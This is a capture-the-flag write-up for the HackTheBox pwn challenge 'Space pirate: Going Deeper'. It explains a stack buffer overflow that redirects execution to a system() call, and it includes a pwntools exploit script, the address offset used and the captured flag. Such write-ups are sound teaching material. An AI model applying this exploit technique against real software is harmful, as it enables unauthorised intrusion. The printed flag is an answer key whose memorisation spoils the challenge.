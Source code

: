 # Space pirate: Going Deeper
> Write-up author: jon-brandy

## Lessons Learned:
1. Stack-Based Exploitation.
2. Buffer Overflow.
3. Return to system() --> using lea offset.

## DESCRIPTION:
We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. 
The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. 
Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. 
Can you disable the mechanisms and take control of the Admin Panel?


## STEPS:
1. Unzipping the zip file resulting to a 64 bit binary file.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/7891a42f-5843-4d71-ac5b-7667676e6464)


2. Let's check the binary's protections.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/0e695117-aab9-468e-919e-be825df29cbc)


3. Let's decompile the binary.
4. At the `main()` function, the `admin_panel()` function shall be our interest because it's where our input accepted.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/b5c990b1-807d-401c-9ff1-d311b50d39cd)


5. We can get the flag if our previous parameters are the same as these:

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/11312e9c-cff6-4c7a-9645-074ee185edf4)


6. Anyway there's a `system()` call that auto cat the flag.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/94239da8-ad83-443d-885c-80c0740dfeed)


![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/4471baf8-7d30-4303-8565-84929f5592f7)


7. Hence the pwn concept is to control the RIP by overflowing the buffer then add the `lea` offset.

```
padding + lea_offset
```

8. First we need to find the offset for RIP.
9. Let's use peda.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/3d4087da-394d-4189-b8ee-b356d7ae7a3d)


10. Sadly it does not show us the bytes, hence we need to find it manually.
11. But the problem is, since we want to use the `system()` approach, hence we can't determine if the padding is correct or not, because it shall gave us the "EOF" statement.
12. Then let's assume to use 57 right now.
13. Next, grab the `lea` offset

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/f93f106f-32b7-4525-85b8-a9ccf7d4c8db)


14. Let's craft the script.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:  
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './sp_going_deeper'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

sh = start()

padding = 57 

lea_offset = 0x0000000000400b12
info('lea offset --> %#0x', lea_offset)

p = flat([
    asm('nop') * padding,
    lea_offset
])

sh.sendlineafter(b'>', b'1')
sh.sendlineafter(b':', p)
sh.interactive()
```

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/7af41ac8-6d87-4a6a-8d8b-170c9780f195)


15. Let's lowered it to 56.

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/84427b43-f406-43bc-bcc1-ba5fb0bd3f1a)


16. Got the flag!
17. Let's test it remotely then.

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/7c483531-53c3-43c5-8183-6b2b1a574ac5)


18. Got the flag!

## FLAG

```
HTB{d1g_1n51d3..u_Cry_cry_cry}
```
